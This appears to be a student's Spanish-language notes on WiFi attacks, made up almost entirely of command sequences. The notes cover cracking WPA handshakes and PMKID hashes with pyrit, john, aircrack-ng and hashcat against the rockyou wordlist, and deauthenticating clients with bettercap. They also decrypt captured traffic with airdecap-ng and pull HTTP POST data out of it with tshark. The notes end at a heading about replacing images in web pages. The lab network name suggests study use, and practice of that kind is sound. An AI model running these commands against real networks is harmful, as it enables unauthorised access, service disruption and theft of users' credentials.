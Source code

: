 	sudo pyrit -i /usr/share/wordlists/rockyou.txt import_passwords --> imprtamos el diccionario en un nuevo archivo
	sudo pyrit -e TEST-HACKING create_essid --> crea un archivo con essid
	sudo pyrit batch --> crea una bd pero demorará según el diccionario y hay que dejar que lo termine
	sudo pyrit -r captura-01.cap attack_db
--- 
### resultados de crackeo de contraseñas con diferentes herramientas
	john                                        --> 2 seg      | 500         k/s
	aircrack-ng                                 --> 2 seg      | 5273        k/s
	pyrit (attack_passthrough)                  --> 29 seg     | 1583        k/s
	cowpatty                                    --> 17.51 seg  | 705         k/s
	airolib-ng                                  --> 0.2618 seg | 274.652     k/s
	cowpatty frente a rain table                --> 0.03 seg   | 473.499     k/s
	pyrit frente a rain table (attack_cowpatty) --> 0.01 seg   | 2.302.808   K/s 
	pyrit (attack_db)                           --> 0.000x seg | 138.418.611 k/s
---
### Captura el tráfico con bettercap
	sudo ./bettercap -iface wlan0 --> pone a correr ebettercap
	wifi.recon on --> activa el modo reconocimiento
	set wifi.show.sort clients desc --> refleja de manera descendiente a los clientes
	set ticker.commands 'clear ; wifi.show' --> crea un ticket para dar paso a poner de manera grafica
	ticker on --> activa el ticker 
	wifi.recon.channel 1 --> habilita el canal uno para capturar tráfico y el hash que nos dara la ruta de donde se guarda el hash pero no lo guarda completo ya que algunos access-point no esta bien segurisados
	wifi.deauth mac-wifi --> desautentica el access-point
	ctrl+z --> deja en segundo plano el proceso
	kill % --> mata el proceso 
---
### atacando con bettercap
	sudo bettercap -iface wlan0
	wifi.recon on
	wifi.show
	wifi.assoc all --> captura hashes
	hcxdumptool -i wlan0 -o captura2 --enable_status=1 --> captura un dump de los hashes pero ya no
	file captura2
	sudo hcxpcaptool -z myhashes captura2 --> exporta los hashes al archivo myhashes
	cat myshashes
	john --show myhashes --> para ver si hay un hasheo anterior y se guarda en /home/deed/.john/john.pot
	john --wordlists=/usr/share/wordlists/rockyou.txt myshashes
	hashcat --example-hashes | grep "16800" -C 2
	sudo hashcat -m 16800 -a 0 myhashes /usr/share/wordlists/rockyou.txt --> creakea el hash y demora unos minutos
	sudo hashcat -m 16800 --show myhashes
---
### Capturar tráfico y desincriptar http
	sudo airdecap-ng -e TEST-HACKING -p angel1*TH28 captura-01.cap --> Obtiene y desencripta el tráfico guardandolo en un neuvo archivo dec.cap
	sudo thsark -r captura-01-dec.cap -Y "http" 2>/dev/null --> filtra tráfico http
	sudo thsark -r captura-01-dec.cap -Y "http.request.method==POST" 2>/dev/null --> filtra tráfico post
	sudo tshark -r captura-01-dec.cap -Y "http.request.method==POST" -Tjson 2>/dev/null --> se buscará un nuevo campo para filtrar
	sudo tshark -r captura-01-dec.cap -Y "http.request.method==POST" Tfields -e http.file.data 2>/dev/null
---
### xeroxploit para remplazo de imagenes en pag web